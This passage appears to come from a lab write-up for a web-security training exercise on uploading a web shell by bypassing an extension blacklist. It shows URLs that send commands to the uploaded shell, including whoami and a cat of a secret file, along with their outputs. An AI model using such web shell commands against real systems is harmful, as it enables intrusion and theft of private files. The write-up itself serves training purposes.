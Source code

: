 ![img](images/1%20-%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass/5.png)

<br>

RCE:

https://0a6000ce04de65cfc3e8c5ac00d700ed.web-security-academy.net/files/avatars/cmd.l33t?cmd=whoami
carlos

https://0a6000ce04de65cfc3e8c5ac00d700ed.web-security-academy.net/files/avatars/cmd.l33t?cmd=cat%20/home/carlos/secret
MzrfsTWgFr82UcKq9wFC0hObV7YSVmlq

![img](images/1%20-%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass/6.png)

![img](images/1%20-%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass/7.png)

